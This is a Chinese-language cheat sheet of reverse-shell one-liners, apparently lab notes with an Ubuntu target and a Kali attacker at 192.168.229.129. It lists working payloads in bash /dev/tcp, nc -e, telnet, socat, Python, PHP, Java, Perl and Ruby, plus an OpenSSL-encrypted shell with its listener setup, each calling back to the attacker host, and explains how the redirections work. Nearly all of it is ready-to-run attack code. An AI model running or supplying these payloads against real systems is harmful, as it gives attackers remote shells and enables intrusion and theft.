 靶机：Ubuntu 192.168.229.131

攻击机：Kali 192.168.229.129

## Bash反弹

攻击机：

```
nc -lvp 4444
```

靶机：

```
bash -i >& /dev/tcp/192.168.229.129/4444 0>&1
```

`bash -i`：代表在本地打开一个bash并允许用户与 shell 进行交互输入输出。

`/dev/tcp/ip/port`：建立一个socket连接。

`>&`：在这是将标准输出和标准错误输出重定向到后面指定的位置。

`0>&1`：代表将标准输入重定向到标准输出，这里的标准输出已经重定向到了`/dev/tcp/ip/port`这个连接，所以可以直接在远程输入命令

PS：

```
当>&后面接文件时，表示将标准输出和标准错误输出重定向至文件。
当>&后面接文件描述符时，表示将前面的文件描述符重定向至后面的文件描述符

0 - stdin 代表标准输入,使用<或<<
1 - stdout 代表标准输出,使用>或>>
2 - stderr 代表标准错误输出,使用2>或2>>
```

## nc反弹

```
nc -e /bin/bash 192.168.229.129 4444
```

## Telnet反弹

攻击机：需要监听两个端口

```
nc -vlp 4444
nc -vlp 5555
```

靶机：

```
telnet 192.168.229.129 4444 | /bin/bash | telnet 192.168.229.129 5555
```

## socat反弹

```
socat tcp-connect:192.168.229.129:4444 exec:'bash -li',pty,stderr,setsid,sigint,sane
```

- `socat`: 这是一个 Linux 下强大的网络工具，用于建立连接并在不同数据流之间传输数据。
- `tcp-connect:192.168.229.129:4444`: 指定连接的类型为 TCP 连接，连接到 IP 地址为 `192.168.229.129` 的远程主机的端口 `4444`。
- `exec:'bash -li'`: 当连接建立后，在远程主机上执行 `bash -li` 命令，这会启动一个交互式的 Bash shell，并将其与已建立的连接关联。
- `pty`: 将连接转换为伪终端（pty），这使得能够在交互式 shell 中输入和输出。
- `stderr`: 将标准错误（stderr）与伪终端关联，以便在出现错误时也能够捕获并显示。
- `setsid`: 在新的进程组中启动 shell，避免终端信号（如 SIGHUP）的影响。
- `sigint`: 转发中断信号，允许通过按下 Ctrl + C 中断正在执行的命令。
- `sane`: 确保传输的数据流在连接关闭后进行清理和关闭。

## Python反弹

```python
python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('192.168.229.129',4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"
```

解释：

```python
import os
import socket
import subprocess

# 创建一个 TCP socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

# 连接到指定的远程主机和端口（192.168.229.129:4444）
s.connect(('192.168.229.129', 4444))

# 重定向标准输入、输出和错误到建立的 socket 连接
os.dup2(s.fileno(), 0)  # 标准输入
os.dup2(s.fileno(), 1)  # 标准输出
os.dup2(s.fileno(), 2)  # 标准错误

# 调用一个新的进程，在该进程中执行交互式的 Bash shell
subprocess.call(['/bin/bash', '-i'])
```

## Php反弹

```php
php -r '$sock=fsockopen("192.168.229.129",4444);exec("/bin/sh -i <&3 >&3 2>&3");'
```

## Java反弹

```java
public static void main(String[] args) throws Exception {
        // TODO Auto-generated method stub
        Runtime r = Runtime.getRuntime();
        String cmd[]= {"/bin/bash","-c","exec 5<>/dev/tcp/xx.xx.xx.xx/xxxx;cat <&5 | while read line; do $line 2>&5 >&5; done"};
        Process p = r.exec(cmd);
        p.waitFor();
    }
}
```

## perl反弹

```perl
perl -e 'use Socket;$i="192.168.229.129";$p=4444;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## ruby反弹

```ruby
ruby -rsocket -e 'c=TCPSocket.new("192.168.229.129","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
或者：
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("192.168.229.129","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Openssh反弹加密shell

攻击机：

```
openssl req -x509 -newkey rsa:2048 -keyout key.pem -out cert.pem -days 365 -nodes

openssl s_server -quiet -key key.pem -cert cert.pem -port 4444
```

靶机：

```
mkfifo /tmp/s; /bin/sh -i < /tmp/s 2>&1 | openssl s_client -quiet -connect 192.168.229.129:4444 > /tmp/s; rm /tmp/s
```

